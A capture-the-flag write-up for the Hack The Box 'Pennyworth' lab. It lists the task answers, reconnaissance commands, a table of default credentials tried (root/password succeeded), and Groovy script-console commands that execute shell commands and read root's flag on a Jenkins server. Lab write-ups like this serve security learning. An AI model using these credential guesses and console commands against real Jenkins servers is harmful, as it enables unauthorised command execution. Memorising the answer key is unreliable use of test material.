



# Pennyworth — HTB Starting Point Writeup

**Difficulty:** Very Easy  
**Date:** 2026-04-26 

**Author:** riggedjoker 

---

## Task Questions

| # | Question | Answer |
|---|----------|--------|
| 1 | What does the acronym CVE stand for? | Common Vulnerabilities and Exposures |
| 2 | What do the three letters in CIA, referring to the CIA triad in cybersecurity, stand for? | Confidentiality, Integrity, Availability |
| 3 | What is the version of the service running on port 8080? | Jetty 9.4.39.v20210325 |
| 4 | What version of Jenkins is running on the target? | 2.289.1 |
| 5 | What type of script is accepted as input on the Jenkins Script Console? | Groovy |
| 6 | What is the path of the Jenkins script console? | /script |
| 7 | What is a different command than `ifconfig` we could use to display our network interfaces information on Linux? | ip addr |
| 8 | What switch should we use with netcat for it to use UDP transport mode? | -u |
| 9 | What is the term used to describe making a target host initiate a connection back to the attacker host and then accepting commands and executing them? | reverse shell |

---

## 1. Reconnaissance

```bash
nmap -sCV -T4 10.129.36.16
```



Seeing that port 8080 is open, this is where we focus.

---

## 2. Enumeration

```bash
dirsearch -u http://10.129.36.16:8080
```



Discovered the Jenkins Script Console at `/script`. The login page required credentials so I manually bruteforced common default credential pairs:

| Username | Password | Result |
|----------|----------|--------|
| user | user | fail |
| admin | admin | fail |
| root | root | fail |
| user | password | fail |
| admin | password | fail |
| root | password | **success** |
After accessing the site, I was able to see the groovy script after accessing the `/script` endpoint.


---

## 3. Foothold

**Vulnerability:** Jenkins Groovy Script Console — RCE via weak default credentials

Knowing it was a Jenkins Groovy RCE, I simply ran execute commands after reading the Groovy scripting guide. Rather than going the reverse shell route, I used the console directly to read the flag by running simple exec commands, not the intended solution (cheeeseee) but it did work!

Reference: https://www.exploit-db.com/docs/47374

```groovy
// Confirm execution context
println "whoami".execute().text

// List root directory
println "ls /root".execute().text

// Read the flag
println "cat /root/flag.txt".execute().text
```

Since running `whoami` confirmed we were `root`, so no privilege escalation was needed.


---

## Lessons Learned

**What worked:** `dirsearch` was a lifesaver for quickly mapping the attack surface. Having the Groovy documentation alongside the exploit-db RCE reference saved a lot of time once Jenkins was identified.

